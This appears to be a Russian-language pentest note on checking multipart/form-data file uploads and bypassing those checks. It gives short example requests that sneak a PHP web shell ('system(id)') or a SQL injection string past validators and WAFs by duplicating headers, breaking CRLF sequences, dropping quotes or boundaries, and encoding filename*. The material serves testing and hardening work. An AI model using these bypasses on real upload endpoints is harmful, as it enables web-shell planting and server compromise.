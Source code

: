 https://datatracker.ietf.org/doc/html/rfc6266

Практически все SDK для загрузки файлов, плагины, библиотеки и т. д. содержат инструменты и функции для проверки того,
что пользователь собирается загрузить. Например, распространённая проверка заключается в проверке типа содержимого, 
расширения файла или наличия магических байтов в начале тела файла. 
Другой пример — проверка длины части файла, чтобы принимать только файлы меньше определённого размера.
Всегда следует помнить, что для веб-приложений x-www-form-urlencodedи multipart/form-dataявляются взаимозаменяемыми, и уязвимости одного из этих двух парсеров могут привести к проблемам безопасности. 

1. Проверка расширения файла: убедитесь, что файл имеет допустимое расширение (например, .jpg, .png, .gif).
2. Проверка типа MIME: Проверьте заголовок Content-Type в запросе на загрузку файла, чтобы убедиться, 
что он соответствует ожидаемому типу MIME для расширения файла. 
Например, файл изображения должен иметь тип MIME, например image/jpeg, image/png.
3. Проверка магических байтов: анализ магических байтов файла (что-то вроде байтов сигнатуры в начале файла) для подтверждения его фактического формата, 
независимо от предоставленного расширения или типа MIME.
4. Ограничение размера файла: убедитесь, что размер файла не превышает заданных ограничений.
5. Проверка на вирусы и вредоносное ПО - через ICAP протокол
6. Проверка содержимого (обычно с помощью WAF) проверьте имя файла на наличие недопустимых символов и последовательностей, таких как ../

Понимание многокомпонентных форм-данных:
application/x-www-form-urlencoded - кодирует поля формы как пары «ключ-значение», закодированные в URL, что хорошо подходит для простых текстовых данных
multipart/form-data - работа с двоичными данными или файлами. Он разбивает данные формы на несколько частей, каждая из которых разделена уникальной строкой-разделителем
```
--boundary
Content-Disposition: form-data; name="username"

foo
--boundary
Content-Disposition: form-data; name="password"
```

### Атаки
##### URL-кодирование в multipart
Один из самых простых, но эффективных методов обхода заключается в переключении типа содержимого запроса с URL-кодированного на multipart multipart/form-data
```
...
Content-Type: multipart/form-data; boundary=xxx

--xxx
Content-Disposition: form-data; name="email";
foo@bar' OR 1=1-- &email=foo@bar&aaa # атака простая - тупо делает URL кодировку в теле запроса
--xxx--
```

##### дублирование параметра имени
Другой способ обойти валидацию входных данных — дублирование nameпараметра в Content-Dispositionзаголовке составного запроса. 
```
--xxx
Content-Disposition: form-data; name="file"; filename="a.txt"; filename="backdoor.php"

<?php system("id"); ?>
--xxx--
```

##### дублирование Content-Disposition
То же, что и для метода выше, но с дублированием Content-Dispositionзаголовка.
```
--boundary
Content-Disposition: form-data; name="file"; filename="safe.txt"
Content-Disposition: form-data; name="file"; filename="malicious.php"

<file content>
--boundary--
```

##### разрыв последовательностей CRLF
Многие парсеры ищут определённую последовательность CRLF \r\n\r\nдля определения конца заголовков и начала тела в многокомпонентном сообщении
```
Content-Type: text/plain\n # убираем \r из конца сообщения и обходим логику
\r\n
<?php system('id'); ?>\r\n
```

##### удаление двойных кавычек
Изменение синтаксиса заголовка Content-Dispositionпутем удаления двойных кавычек вокруг параметров или замены их одинарными
В стандартном multipart/form-dataзапросе параметры, такие как nameи filenameв Content-Dispositionзаголовке, обычно заключаются в двойные кавычки. Например: name="file"или filename="image.png".
```
--boundary
Content-Disposition: form-data; name="file"; filename=backdoor.php # убрали кавычки обрамляющие backdoor.php

<file content>
--boundary--
```

##### отсутствует закрывающая граничная строка
само сообщение завершается символом --<boundary string>--. Однако, если злоумышленник удалит закрывающую граничную строку, многие приложения всё равно смогут её принять
```
Content-Disposition: form-data; name="file"; filename="malicious.php"

<file content>
# тут должен быть --boundary--, но его нет)
```

##### filename*=utf-8''по запросу
RFC 6266 обновил RFC 2616, где:
когда в одном поле заголовка присутствуют и "filename", и "filename*", получателям СЛЕДУЕТ выбирать "filename*" и игнорировать "filename".
По сути, этот filename*параметр позволяет включать в имена файлов специальные символы и указывать кодировку
```
Content-Disposition: form-data; name="file"; filename*=utf-8''file%2ephp # file.php
Content-Disposition: form-data; name="file"; filename*=utf-8''file%2esh # file.sh 
```
